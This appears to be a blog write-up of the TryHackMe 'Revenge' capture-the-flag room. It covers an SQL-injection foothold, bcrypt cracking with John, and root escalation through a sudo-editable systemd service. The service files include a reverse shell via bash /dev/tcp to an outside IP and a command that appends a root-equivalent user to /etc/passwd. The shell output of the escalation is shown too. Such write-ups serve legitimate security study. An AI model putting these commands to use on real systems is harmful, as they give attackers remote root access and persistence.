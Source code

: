```yaml
---
layout: post
title:  "THM: Revenge"
date:   2020-11-22 20:00:00 +1100
category: hacking
---
```


## Introduction
*You've been hired by Billy Joel to get revenge on Ducky Inc...the company that fired him. Can you break into the server and complete your mission?*

This is [Revenge](https://tryhackme.com/room/revenge) from TryHackMe. It's medium rated.

## Cut to the chase
I'm going to skip over a lot of this. Foothold is via a SQLi on the 'products' page of the website, **sqlmap** can dump the database and John can crack the hash for one of the users; then we SSH in.

{% highlight shell %}
root@kali:/opt/tryhackme/revenge# cat system_user.csv 
id,email,username,_password
1,sadmin@duckyinc.org,server-admin,$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a
2,kmotley@duckyinc.org,kmotley,$2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa
3,dhughes@duckyinc.org,dhughes,$2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK

root@kali:/opt/tryhackme/revenge# nano hashes
root@kali:/opt/tryhackme/revenge# john hashes -w=/usr/share/wordlists/rockyou.txt
Loaded 3 password hashes with 3 different salts (bcrypt [Blowfish 32/64 X3])
Loaded hashes with cost 1 (iteration count) varying from 256 to 4096
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
inuyasha         (?)
{% endhighlight %}

After I was done with this I checked some writeups and unfortunately they all used **sqlmap**, no-one did the SQLi manually. I had a bit of a go at it but I wasn't getting too far.

For the privesc, our user can edit and restart a service, so that's our path:

{% highlight shell %}
server-admin@duckyinc:~$ sudo -l
[sudo] password for server-admin: 
Matching Defaults entries for server-admin on duckyinc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart duckyinc.service, /bin/systemctl daemon-reload, sudoedit
        /etc/systemd/system/duckyinc.service
{% endhighlight %}

The service runs the webserver. The final flag was supposed to be awarded for defacing the webserver front page, not by gaining root. Anyway, the first time I tried it I sent myself a root shell:

{% highlight shell %}
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash -c "/bin/bash -i >& /dev/tcp/10.9.10.123/1234 0>&1"
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
{% endhighlight %}

Then I edited */var/www/duckyinc/templates/index.html* ... and got a *502 Bad Gateway* error on the website. 

Next, I used the service to make myself another root user:

{% highlight shell %}
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash -c "echo root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash >> /etc/passwd"
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target

server-admin@duckyinc:~$ sudoedit /etc/systemd/system/duckyinc.service
server-admin@duckyinc:~$ sudo -u root /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo -u root /bin/systemctl restart duckyinc.service
server-admin@duckyinc:~$ su root2
Password: 
root@duckyinc:/home/server-admin#
{% endhighlight %}

Then I edited */var/www/duckyinc/templates/index.html* ... and got a *502 Bad Gateway* error on the website. 

I checked some writeups and no-one else mentioned this as being an issue. Anyway, I then restored the service file to the original state and restarted it again (still with my root2 user) and finally it worked. So yeah, not sure what was up with that.
